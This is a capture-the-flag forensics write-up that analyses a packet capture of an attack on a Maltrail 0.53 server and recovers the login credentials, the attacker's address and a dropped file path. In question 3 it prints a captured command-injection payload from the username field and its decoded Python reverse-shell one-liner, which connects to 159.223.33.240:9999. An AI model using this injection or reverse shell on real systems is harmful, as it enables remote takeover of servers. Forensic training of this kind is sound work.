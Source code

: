 # **Analyze the Bad Hacker!**

**Difficulty:** Tedious and Meticulous (Personal Rating)  
**Flag:** `HCS{f0R3n51k_1tu_m3n4rik}`

---

## **EN**

So, at first, we were given this `.pcapng` file, titled `budi.pcapng`.

At first, I was a bit turned down by this. Mostly due to the fact that I didn't have wireshark installed on my current machine, I didn't want to boot up my kali live instance, and that I'm currently on a relatively slow internet connection. So download of wireshark and installation could and did prove to be quite the hassle, especially due to the time limit later on.

Anyway, so what I did was, I looked for an online pcap viewer instead, and found `https://apackets.com/`.

Uploading the pcap file there results in this "analyzed" result:
![A-packets analysis](./assets/image.png)

1. First question asked for the name and version of the server that was analyzed, so what I did was I looked through HTTP Communication, specifically `GET`, because usually `GET` response headers also include the server type/software that returned the response. What I found was this:  
    ![GET Request headers](./assets/image-1.png)  
   `Maltrail/0.53`  
   So that's question 1 down.

2. The second question asked for the credentials used by the hacker to successfully log into the server a second time in the format of `username:hash`. Assuming that `hash` is a hashed password or possibly a token of some sort, I looked through `POST` requests. After looking through them, I found these candidates:

   1. `username=admin&hash=ad46649365c29fdaf9e12b95582e2e2c197f2fdea2c22806e84aa890ed2c2bd8&nonce=TIjxAmLEQZji`
   2. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`
   3. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`

   After some trial and error, I pinned it down to the third one: `admin:56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73`

3. For the third question, it asked for the IP and port that the hacker used to access the server, probably the post-exploitation machine.

While looking at the `POST` requests for number 2, I noticed that a couple packets were looking like this:

```
username=;`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTU5LjIyMy4zMy4yNDAiLDk5OTkpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vc2giKSc="+|+base64+-d+|+sh`
```

The use of `;` was clearly to escape some sort of templating mechanism, so whatever is after that is probably an RCE. I took the base64 encoded string and decoded it:

![RCE Base64 decoded](./assets/image-2.png)

```sh
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("159.223.33.240",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

To sum it up, it basically opens up a shell then connects it through a socket connection to... the post-exploitation device!  
`159.223.33.240:9999`  
So that's 3 down.

4. For number 4, it asked for the absolute path of the file that the hacker put on the server post-exploit.

The analysis from apackets wasn't deep enough to get to socket packets which are raw TCP, so I had to install wireshark to do the packet-by-packet analysis. Dumped into wireshark, we see this:
![A LOT OF PACKETS](./assets/image-3.png)
A **LOT** of packets, so to narrow it down, basing off number 3, we filter for TCP port 9999, that narrows it down to 87 packets.
![A lot to just 87 packets](./assets/image-4.png)
Now it's really just a matter of us scrolling down frame by frame to analyze what the post-exploit shell did.

1. At 2624-2625 the shell executes an `ls` command

![ls command](./assets/image-5.png)

2. At 2648 we see that the `ls` returned a `/`-esque output

![Looks like an "ls /" output](./assets/image-6.png)

3. Then, at 2742-2743, it does a `cd` to `/tmp`

![cd to `/tmp`](./assets/image-7.png)

4. Finally, at 2767-2768, the shell pipes a shell script to a file titled `.hmm.sh`

![hmm.sh](./assets/image-8.png)

To recap, it moved to `/tmp` and writes a file named `.hmm.sh`, so the absolute path is `/tmp/.hmm.sh`.

🎉🎉🎉
![Finished!](./assets/image-9.png)
